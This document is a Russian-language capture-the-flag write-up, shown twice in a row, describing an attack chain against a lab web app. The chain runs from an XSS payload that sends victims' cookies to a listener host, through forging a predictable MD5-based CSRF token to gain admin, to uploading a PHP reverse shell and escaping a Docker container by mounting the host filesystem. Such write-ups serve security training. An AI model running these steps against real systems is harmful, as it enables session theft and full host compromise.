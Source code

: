 исследуем директории и файлы на сайте
![](../attachment/Pasted%20image%2020251022163158.png)
![](../attachment/Pasted%20image%2020251022163147.png)

Находим письмо в котором содержится пароль для новых панелей
![](../attachment/Pasted%20image%2020251022163222.png)

на странице обратной связи имеется уязвимость XSS с помощью которой мы можем получить куки пользователя который просматривает обращения
```
<script>fetch('http://10.10.32.135:4545/' + document.cookie)</script>
```
![](../attachment/Pasted%20image%2020251024113839.png)

Используя полученные куки мы можем зайти на сайт под пользователем mod и обнаружить его csrf токен, который не меняется (а должен). Проверим md5 хеш имени пользователи видим совпадение с csrf токеном
![](../attachment/Pasted%20image%2020251024114848.png) 
Получим csrf токен для администратора
```
echo -n admin |md5sum
21232f297a57a5a743894a0e4a801fc3  -
```
На вкладке чатов есть чат с админом, который переходит по ссылкам. Отправим ему ссылку с помощью который поднимем права пользователя mod до админа
![](../attachment/Pasted%20image%2020251024122804.png)

С правами админа мы можем выбрать  новую панель lottery на странице dashboard. Подменив название страницы у нас откроется страница finance.php которая потребует ранее найденный пароль.
После ввода пароля мы получаем доступ к панели finance с возможностью загрузки файлов
![](../attachment/Pasted%20image%2020251024124340.png)

Загрузив php reverse shell и перейдя на страницу где расположен файл мы получаем соединение
Изучив систему и не найдя флаг, мы видим файл .dockerenv => здесь есть контейнеры
![](../attachment/Pasted%20image%2020251024124801.png)
![](../attachment/Pasted%20image%2020251024130941.png)
Создадим новый контейнер, который будет использован образ ранее созданного контейнера 
```
docker run -v /:/host --name MainSystem phpvulnerable &
```

![](../attachment/Pasted%20image%2020251024130603.png)

Теперь используя новый контейнер изучим систему и заберем флаг 
```
docker exec MainSystem ls -al /
docker exec MainSystem ls -al /host
docker exec MainSystem ls -al /host/root
docker exec MainSystem cat /host/root/flag.txt
```
![](../attachment/Pasted%20image%2020251024130808.png)исследуем директории и файлы на сайте
![[../attachment/Pasted image 20251022163158.png]]
![[../attachment/Pasted image 20251022163147.png]]

Находим письмо в котором содержится пароль для новых панелей
![[../attachment/Pasted image 20251022163222.png]]

на странице обратной связи имеется уязвимость XSS с помощью которой мы можем получить куки пользователя который просматривает обращения
```
<script>fetch('http://10.10.32.135:4545/' + document.cookie)</script>
```
![[../attachment/Pasted image 20251024113839.png]]

Используя полученные куки мы можем зайти на сайт под пользователем mod и обнаружить его csrf токен, который не меняется (а должен). Проверим md5 хеш имени пользователи видим совпадение с csrf токеном
![[../attachment/Pasted image 20251024114848.png]] 
Получим csrf токен для администратора
```
echo -n admin |md5sum
21232f297a57a5a743894a0e4a801fc3  -
```
На вкладке чатов есть чат с админом, который переходит по ссылкам. Отправим ему ссылку с помощью который поднимем права пользователя mod до админа
![[../attachment/Pasted image 20251024122804.png]]

С правами админа мы можем выбрать  новую панель lottery на странице dashboard. Подменив название страницы у нас откроется страница finance.php которая потребует ранее найденный пароль.
После ввода пароля мы получаем доступ к панели finance с возможностью загрузки файлов
![[../attachment/Pasted image 20251024124340.png]]

Загрузив php reverse shell и перейдя на страницу где расположен файл мы получаем соединение
Изучив систему и не найдя флаг, мы видим файл .dockerenv => здесь есть контейнеры
![[../attachment/Pasted image 20251024124801.png]]
![[../attachment/Pasted image 20251024130941.png]]
Создадим новый контейнер, который будет использован образ ранее созданного контейнера 
```
docker run -v /:/host --name MainSystem phpvulnerable &
```

![[../attachment/Pasted image 20251024130603.png]]

Теперь используя новый контейнер изучим систему и заберем флаг 
```
docker exec MainSystem ls -al /
docker exec MainSystem ls -al /host
docker exec MainSystem ls -al /host/root
docker exec MainSystem cat /host/root/flag.txt
```
![[../attachment/Pasted image 20251024130808.png]]